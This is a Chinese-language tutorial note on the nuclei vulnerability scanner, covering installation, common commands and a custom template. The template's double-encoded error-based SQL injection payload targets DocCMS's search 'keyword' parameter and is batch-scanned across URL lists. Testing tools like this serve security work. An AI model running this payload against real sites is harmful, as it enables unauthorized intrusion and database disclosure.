 - [常用命令](#常用命令)
- [Example-1](#example-1)

> 漏洞扫描，批量检测，自定义POC https://github.com/projectdiscovery/nuclei

下载安装
```
# MacOSX
brew install nuclei
# Go
go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest
```

相关链接
- [官方使用文档](https://nuclei.projectdiscovery.io/templating-guide/protocols/http/)
- [README_CN](https://github.com/projectdiscovery/nuclei/blob/master/README_CN.md)

## 常用命令

```
# 使用模板模板扫描单个 URL
nuclei -u example.com -t template.xml

# 使用模板扫描文件内 url
nuclei -l URL.txt -t xxx.yaml

# 保存扫描结果到 result.txt
nuclei [options] -o result.txt

# 简化输出结果 重试次数5 超时时间10s
nuclei [options] -nm -retries 5 -timeout 10

# 更新引擎
nuclei -update

# 更新模板
nuclei -update-templates

# 扫描指定年份的所有CVE
echo https://example.com | nuclei -t 'cves/2021/*'

# 指定扫描文件夹内所有的 POC
echo https://example.com | nuclei -t 'vulnerabilities/moodle/*'
```

## Example-1
- 达成目标：批量检测POC，向URL列表发送指定GET参数获取相应返回结果
- 请求URL：`https://example.com/search/index.php`
- 请求参数(GET)：`keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33`
- 获取响应内容包含 `ORDER BY id DESC` 的结果

自定义yaml模板
```yaml
# 必要字段 ID
id: DocCMS-keyword-SQLi
# 必要字段INFO
info:
    name: DocCMS-keyword-SQLi
    author: kylin
    tags: sqli,DocCMS
    reference: http://wiki.peiqi.tech/wiki/cms/DocCMS/DocCMS%20keyword%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html
    severity: high
# HTTP请求数据包
requests:
  # 原始数据包(RAW)内容
  - raw:
    - |
      GET /search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33/ HTTP1.1
      Host: {{Hostname}}
    # 匹配字符串包含 ORDER BY id DESC
    matchers:
      - type: word
        words:
          - "ORDER BY id DESC"
```
指定 DocCMS-keyword-SQLi.yaml 模板并且指定 urls.txt 文件扫描
```
nuclei -l urls.txt -t DocCMS-keyword-SQLi.yaml
```
![图 4](../../../@attachment/images/Security/安全工具/nuclei_1661280665338.png)  